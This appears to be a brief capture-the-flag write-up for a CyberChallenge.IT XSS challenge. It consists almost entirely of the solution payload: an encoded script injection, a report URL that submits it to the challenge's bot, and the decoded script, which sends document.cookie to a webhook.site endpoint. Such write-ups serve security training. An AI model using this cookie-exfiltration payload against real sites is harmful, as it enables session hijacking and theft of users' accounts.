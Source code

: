# XSS 01

http://xss1.challs.cyberchallenge.it/


## Payload

http://xss1.challs.cyberchallenge.it/?html=%3Cscript%3Efetch%28%22https%3A%2F%2Fwebhook.site%2F273ce221-3915-4d76-80fe-8353bb5cc526%2F%22%2Bdocument.cookie%29%3B%3C%2Fscript%3E

REPORT

```
http://xss1.challs.cyberchallenge.it/report?url=http%3A%2F%2Fxss1.challs.cyberchallenge.it%2F%3Fhtml%3D%253Cscript%253Efetch%2528%2522https%253A%252F%252Fwebhook.site%252F273ce221-3915-4d76-80fe-8353bb5cc526%252F%2522%252Bdocument.cookie%2529%253B%253C%252Fscript%253E
```

```
<script>
    fetch("https://webhook.site/273ce221-3915-4d76-80fe-8353bb5cc526/"+document.cookie);
</script>
```